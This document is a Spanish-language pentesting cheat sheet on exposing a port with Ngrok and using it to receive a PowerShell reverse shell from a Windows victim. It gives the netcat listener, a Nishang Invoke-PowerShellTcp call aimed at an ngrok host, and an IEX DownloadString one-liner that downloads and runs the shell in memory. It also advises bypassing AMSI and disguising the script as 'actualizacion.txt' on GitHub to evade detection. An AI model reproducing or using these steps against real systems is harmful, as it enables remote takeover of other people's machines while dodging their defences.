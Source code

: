 # Ngrok

Tags: #Ngrok #Windows #Powershell #AMSI

## Instalación

* [Ngrok-Windows](https://download.ngrok.com/windows)

```bash 
# Para Linux 

❯ wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz     # Descargas el binario                     
❯ tar xvzf ngrok-v3-stable-linux-amd64.tgz           # Descomprimes el binario
❯ ./ngrok config add-authtoken PEGA_AQUI_TU_TOKEN    # Agrega el Token de tu cuenta a Kali
```

## Comandos 

```bash 
❯ ngrok help                   # Panel de ayuda 
❯ ngrok http 80                # Se publica una web de local a publica con un enlace que nos proporciona Ngrok
```

## Revershell Ngrok y Powershell

* [Invoke-PowershellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```bash 
❯ ngrok tcp 443         # Exponemos publico el puerto 443 y Ngrok nos devolvera un 'tcp://2.tcp.ngrok.io:19215'. Utilizaremos la parte de '2.tcp.ngrok.io' en IPAddress y '19215' para el Port en el script de la revershell de abajo.  

❯ nc -nlvp 443   # Recibir la revershell en Kali
```

```bash 
# Creamos un script con el contenido del enlace de arriba y al final le agregaremos este comando para poder usar Ngrok

❯ nvim Invoke-PowershellTCP.ps1

	Invoke-PowerShellTcp -Reverse -IPAddress 2.tcp.ngrok.io -Port 19215 

Nota: 
	1. Debemos Bypasear AMSI, de lo contrario nos detectara codigo malicioso
	1. Este script lo podemos cargar a nuestro Github, ya que eso lo hara mas confiable al momento de llamarlo desde la maquina victima 
	2. Podemos colocarle un nombre discreto al script como 'actualizacion.txt'
```

```bash 
# Desde la maquina victima con Windows llamamos al script que se encuentra almacenado en nuestro Github, esto lo hace a nivel de memoria por lo que es dificil de detectar y sirve como metodo de evasion

Nota: La url que se coloca es la que nos muestra al momento de darle 'Raw' al script almacenado en 'Github'

❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Scripts/main/Invoke-PowershellTCP.ps1')"

Nota: 
	1. Si se ejecuta el comando desde un 'cmd' en Windows colocarlo asi como aparece. Pero si se esta ejecutando desde la consola de PS quitarle 'powershell -c'
```